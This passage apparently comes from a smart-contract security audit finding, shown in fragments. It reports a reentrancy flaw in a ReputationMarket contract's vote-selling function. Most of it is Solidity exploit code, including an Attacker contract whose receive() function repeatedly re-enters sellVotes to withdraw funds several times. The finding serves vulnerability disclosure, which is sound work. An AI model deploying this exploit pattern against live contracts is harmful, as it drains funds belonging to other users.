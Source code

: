 ```solidity
            );
            totalWithdrawn += msg.value;
        }
    }
    
    // Launch attack
    function attack() external {
        attackCount = 0;
        target.sellVotes(
            profileId,
            true,    // isPositive
            1,       // votesToSell
        );
    }
}
```

### Impact

**Re-entrancy and Double Withdrawal:**
   ```solidity
   // Each re-entry can:
   fundsReceived = X;
   _sendEth(X);              // Sends X
   marketFunds[profileId] -= X;  // State updated last
   // This results in multiple withdrawals but only one state reduction
   ```

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {ReputationMarket} from "../contracts/ReputationMarket.sol";

contract Attacker {
    ReputationMarket public market;
    uint256 public attackCount;
    uint256 public profileId;
    
    constructor(address _market) {
        market = ReputationMarket(_market);
    }
    
    // Buy initial votes
    function setup(uint256 _profileId) external payable {
        profileId = _profileId;
        market.buyVotes{value: msg.value}(
            profileId,
            true,    // isPositive
            1,       // minVotesExpected
            10000    // maxSlippageBasisPoints
        );
    }
    
    // Reentrancy attack
    receive() external payable {
        if (attackCount < 10) {
            attackCount++;
            market.sellVotes(profileId, true, 1);
        }
    }
```
